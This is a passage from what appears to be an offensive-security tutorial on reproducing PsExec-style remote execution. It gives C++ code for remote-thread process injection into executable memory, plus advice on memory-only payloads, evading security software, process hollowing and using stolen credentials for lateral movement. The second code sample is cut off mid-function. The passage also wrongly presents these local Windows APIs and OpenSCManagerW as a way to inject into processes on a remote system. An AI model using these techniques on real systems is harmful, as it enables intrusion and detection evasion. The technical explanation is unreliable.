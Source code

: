    **Example**: If using process injection:
   ```cpp
   // Example of remote thread injection into a process on the target
   HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
   LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
   WriteProcessMemory(hProcess, pRemoteMemory, payload, payloadSize, NULL);
   CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteMemory, NULL, 0, NULL);
   ```

4. **Clean Up**:
   - After execution, clean up any traces by closing handles, deallocating memory, and restoring any modified service configurations.

### **Advanced Tradecraft Considerations**

- **Memory-Only Payloads**: Use payloads that are executed entirely in-memory, leaving no traces on the disk. This can be achieved using reflective DLL injection or memory-only shellcode execution.
- **Avoiding Detection**: Utilize stealth techniques to avoid detection by security software, such as obfuscating the payload, using encrypted communications, and employing process hollowing or other advanced injection techniques.
- **Customizing Authentication**: Depending on the environment, you might need to customize the authentication method to bypass specific network defenses or use stolen tokens/credentials for lateral movement.

### **Conclusion**

By understanding how PsExec operates at a high level, we can replicate its functionality with advanced techniques that do not rely on creating new services or writing files to disk. Leveraging the `OpenSCManagerW` API for authentication and using process injection or service hijacking allows for stealthy and effective code execution on remote systems, making it a valuable technique in advanced penetration testing and red team exercises.

Here’s an example of C++ code that demonstrates how to use the `OpenSCManagerW` API to connect to a remote Service Control Manager (SCM) and inject code into an existing process on a remote system. This code snippet will cover:

1. **Connecting to the SCM** on the remote machine.
2. **Opening a handle** to a target process.
3. **Injecting a payload** into the remote process.

Please note, the following example is for educational purposes only and should only be executed in an environment where you have explicit permission to perform such actions.

### **C++ Code Example: Remote Process Injection**

```cpp
#include <windows.h>
#include <iostream>

bool InjectPayload(HANDLE hProcess, LPVOID payload, SIZE_T payloadSize) {
    // Allocate memory in the remote process
    LPVOID pRemoteMemory = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (pRemoteMemory == NULL) {
        std::cerr << "Failed to allocate memory in remote process." << std::endl;
        return false;
    }

    // Write the payload to the allocated memory
    if (!WriteProcessMemory(hProcess, pRemoteMemory, payload, payloadSize, NULL)) {
        std::cerr << "Failed to write payload to remote process memory." << std::endl;
        VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
        return false;
    }

    // Create a remote thread to execute the payload
```